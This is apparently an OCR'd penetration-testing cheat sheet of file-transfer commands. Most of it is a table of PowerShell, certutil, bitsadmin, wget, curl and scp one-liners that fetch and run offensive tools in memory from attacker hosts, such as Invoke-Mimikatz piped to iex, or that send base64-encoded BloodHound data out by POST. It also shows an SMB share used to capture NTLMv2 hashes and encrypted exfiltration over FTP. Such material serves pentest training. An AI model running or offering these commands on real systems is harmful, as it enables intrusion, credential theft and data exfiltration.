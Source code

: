cd C:\Windows\Temp; mkdir <...>; cd <...>

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `powershell \ IEX(New-Object Net.WebClient).downloadString('http://<ip>/PS.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 \| iex` | Alias iex |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| iex` | Basic Parser |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` | Encoding b64 |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | Download using import |
| `certutil.exe -f -urlcache -split http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | Download |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

Windows -> Linux

Linux -> `impacket-smbserver smbFolder $(pwd) -smb2support`

Windows -> `copy \\<ip>\smbFolder\<file> <file>` -> Get Hashes NTLM v2


Windows via secure way

Windows Encript file

``Powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "s3cure-and-unique-p4ssw0rd" -Path .\scan-results.txt
``

Open FTP service on linux

``bash
pip3 install pyftpdlib
python3 -m pyftpdlib --user=pentester --password=s3cure-and-unique-p4ssw0rd -w
``

Windows transfer file via ftp
``
ftp
ftp> open <ip> <port>
User (10.10.14.2:(none)): <user>
Password: <password>
ftp> put scan-results.txt.aes
``

To decrypt the file again

``bash
¬ pwsh
PS> Import-Module Invoke-AESEncryption.ps1
PS> Invoke-AESEncryption -Mode Decrypt -Key "s3cure-and-unique-p4ssw0rd" -Path ./scan-results.txt.aes
``
